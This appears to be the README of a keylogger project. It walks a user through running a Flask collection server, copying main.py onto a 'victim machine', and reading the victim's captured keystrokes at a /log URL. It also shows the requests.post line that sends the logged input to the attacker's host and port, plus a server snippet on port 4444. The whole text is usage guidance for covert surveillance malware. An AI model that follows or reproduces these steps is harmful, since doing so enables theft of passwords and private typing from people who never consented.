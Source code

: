 **Setup:**
1) Install Flask server on your host machine : pip install Flask
2) Run the server: python server.py
3) Transfer the main.py to victim machine
4) Run main.py on victim machine : python main.py
5) Accessing the Logs:
To view the logs collected by the server, follow these steps:
Open a Web Browser: Launch your preferred web browser (e.g., Chrome, Firefox, Safari).
Visit the URL: Enter the following URL in the address bar:  "http://hostIP:port/log"
As soon as your victim starts typing your log file on your server will be updated. (if not refresh the page)
----------------------------------------------------------------------------------------------------------------
In the server.py file, you can change the port number to your desired value. For example:
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=4444)

and In the main.py file, update the URL in the requests.post call to match the server's IP address and port number. For example:
**try:
    requests.post('http://<host_ip>:<port_number>/log', data={'log': log_data})**
Replace <host_ip> with the server's IP address and <port_number> with the port number specified in your server.py (e.g., 4444).
